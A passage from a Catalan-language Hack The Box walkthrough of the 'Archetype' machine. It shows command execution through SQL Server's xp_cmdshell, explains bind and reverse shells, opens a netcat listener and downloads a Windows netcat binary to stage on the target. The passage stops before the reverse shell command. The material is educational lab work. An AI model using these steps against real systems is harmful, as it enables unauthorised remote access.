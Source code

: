 Un cop executat tornem a provar i aquest cop sembla que obtenim resposta:

```
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------
archetype\sql_svc
NULL
```

## Obtenir una consola

Hi ha moltes maneres diferents d'obtenir una consola un cop ja pots executar comandes en un sistema però les idees sempre són les mateixes:

- O obrim un port en la màquina per a que ens hi puguem connectar i ens presenti amb una consola (_bind shell_)
- O fem que es connecti a nosaltres i ens presenti la consola a través de l'execució (_reverse shell_).

S'acostuma a utilitzar la segona ja que si hi ha un firewall bloquejant les connexions és més probable que permeti connexions de dintre a fora que a l'enversa.

Per crear una _reverse shell_ d'una forma senzilla necessitarem tres coses:

- Saber la nostre IP (dintre de la VPN)
- Obrir un servidor que escoli connexions en el nostre ordinador
- Fer que la màquina objectiu es connecti a la nostre presentant una consola

### Saber la nostre IP

```bash
$ ip a
```

Donat que estem dintre de la _network_ de _hack the box_ utilitzarem la de la interfície `tun0`.

### Obrir un _listener_

Fàcil amb _netcat_:

```bash
$ nc -lvnp 9999
```

### Que la màquina objectiu es connecti a la nostre

Primer hem de passar-li el software per a que ho pugui fer (o utilitzar software que ja te la màquina i coneguis però no és el meu cas). Per això descarrego el binari per a Windows del _netcat_ (mateix programa que fem servir per escoltar `nc`) .

```bash
curl https://raw.githubusercontent.com/diegocr/netcat/master/nc.exe -o nc.exe
```

I un cop el tenim hem de fer-li arribar a la màquina objectiu, per això arranquem un servidor web (en el mateix directori on hem guardat la descarrega) des de on el podrà descarregar.

